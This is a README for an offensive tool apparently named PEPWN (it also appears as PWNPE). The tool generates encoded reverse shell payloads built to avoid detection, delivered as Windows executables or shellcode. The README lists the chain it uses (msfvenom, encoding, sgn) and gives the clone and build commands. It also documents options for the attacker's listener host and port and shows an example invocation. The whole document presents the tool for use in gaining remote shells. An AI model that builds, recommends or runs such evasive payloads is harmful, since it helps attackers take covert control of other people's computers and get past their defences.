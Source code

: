 # PEPWN
PWNPE is a multi chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


# Overview

1- generate a payload with msfvenom.
2- generate a shellcode from it
3- encodes it.
4- apply 2nd layer of encoding using sgn.
5- transfer it into a shellcode format of use or create exe file that triggers that shellcode using syscalls.



# Installation

Go to /root directory 

git clone https://github.com/0xx7/PEPWN.git



./build.sh

Then 

./wrapper -H



# Documentation

Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 -f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 -t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 -h : host/ip/domain of the listener
 
 -p : port of the listener
 
 -H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


# How to use

https://youtu.be/SYriAv_FPAg
